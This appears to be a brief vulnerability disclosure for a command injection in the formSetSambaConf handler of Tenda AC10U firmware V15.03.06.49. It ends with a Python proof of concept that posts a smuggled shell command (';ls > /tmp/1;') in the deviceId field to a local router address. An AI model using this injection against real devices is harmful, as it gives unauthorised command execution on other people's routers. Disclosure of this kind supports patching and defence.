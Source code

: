 # command injection

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formSetSambaConf

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](19.png)

get value from deviceId ,then call doSystemCmd, can execute arbitrary command.




## POC
```
url = "http://192.168.1.13/goform/formSetSambaConf"
payload = ';ls > /tmp/1;'

r = requests.post(url, data={'deviceId': payload})
``` 

